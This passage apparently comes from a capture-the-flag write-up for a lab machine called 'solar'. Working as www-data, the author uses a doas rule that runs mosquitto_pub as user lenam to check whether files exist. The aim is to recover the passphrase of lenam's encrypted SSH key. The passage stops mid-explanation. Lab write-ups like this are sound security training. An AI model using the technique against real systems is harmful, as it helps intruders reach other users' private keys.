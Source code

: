 ![alt text](../../assets/images/solar/image-14.png)

The key is encrypted, and the `passphrase` is strong; it is not found in `rockyou.txt`.

### Retrieving the `passphrase` from lenam's `id_ed25519`

We create a file and a folder:

```bash
www-data@solar:/tmp$ ls -l
total 4
-rw-r--r-- 1 www-data www-data    0 Aug 27 17:12 file
drwxr-xr-x 2 www-data www-data 4096 Aug 27 17:11 folder
```

Using the `-f` parameter of `mosquitto_pub`, we can identify if a file does not exist:

```bash
www-data@solar:/tmp$ doas -u lenam /usr/bin/mosquitto_pub -f ./filenoexist
Error: Unable to open file "./filenoexist".
Error loading input file "./filenoexist".
```

If the file exists (even when sending it to a `topic`):
